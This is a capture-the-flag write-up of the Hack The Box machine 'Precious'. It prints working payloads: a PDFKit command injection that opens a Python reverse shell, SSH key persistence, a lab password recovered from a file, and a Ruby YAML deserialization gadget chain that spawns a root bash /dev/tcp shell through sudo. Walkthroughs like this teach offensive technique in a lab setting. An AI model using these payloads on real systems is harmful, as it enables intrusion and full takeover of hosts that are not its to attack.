






# Precious

First, I scan the remote host.

```sh
nmap -sC -sV 10.10.11.189
```

I have 2 ports :&#x20;

<figure><figcaption></figcaption></figure>

I add vhost dns on local with `echo '10.10.11.189 precious.htb' | tee -a /etc/hosts`. The web service runs on `nginx 1.18.0`, I find a code injection for the form :

```sh
http://%20`sleep 1`		# it sleeps
```

Then I find a vulnerability on this [tool](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). I start a netcat listener on local :

```sh
nc -lnvp 1234
```

And I inject this code into the form on remote :

```
http://%20`python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect(("10.10.14.9", 1234)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'`
```

I get the reverse shell as `ruby` :&#x20;

<figure><figcaption></figcaption></figure>

I upgrade shell with `python3 -c "import pty;pty.spawn('/bin/bash')"`. I create a SSH key on local with `ssh-keygen` and I add the public key on remote `/home/ruby/.ssh/authorized_keys`. Now, I have SSH access and a real shell with `ssh ruby@precious`. I check all ruby's files with `find / -gid 1001 2>/dev/null` and there is an interesting file :&#x20;

<figure><figcaption></figcaption></figure>

I check the file content and I find henry's credentials :&#x20;

<figure><figcaption></figcaption></figure>

Thus I can try SSH connection with `henry:Q3c1AqGHtoI0aXAYFH` such as `ssh henry@precious.htb`. It works :

```sh
cat /home/henry/user.txt
```

As `henry`, I check sudo permissions with `sudo -l` and I get :&#x20;

<figure><figcaption></figcaption></figure>

I can execute with no password :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

* `secure_path` : the variable `PATH` in the command execution environment has the `secure_path` value.
* `mail_badpass` : if I fail a sudo command, it will log it.
* `env_reset` : the command is executed in a new minimal environment with these variables \[TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME, SUDO\_\*].

The `/opt/update_dependencies.rb` file's content is :

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

And the `dependencies.yaml` content is :

```yml
yaml: 0.1.1
pdfkit: 0.8.6
```

To execute the script, I have to go to specific location :&#x20;

<figure><figcaption></figcaption></figure>

The script goes right only because I'm on the `/opt/sample` path. If I go to `home/henry`, it throws an exception. Thus the script loads the `dependencies.yml` form the current working directory. I create a new `dependencies.yml` at `/home/henry` and add it the following code block :

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.9/1234 0>&1'"
         method_id: :resolve
```

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

I start a netcat listener on the local host with `nc -lnvp 1234` and execute the instruction :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

I gain root privilege on remote host !

```sh
cat /root/root.txt
```
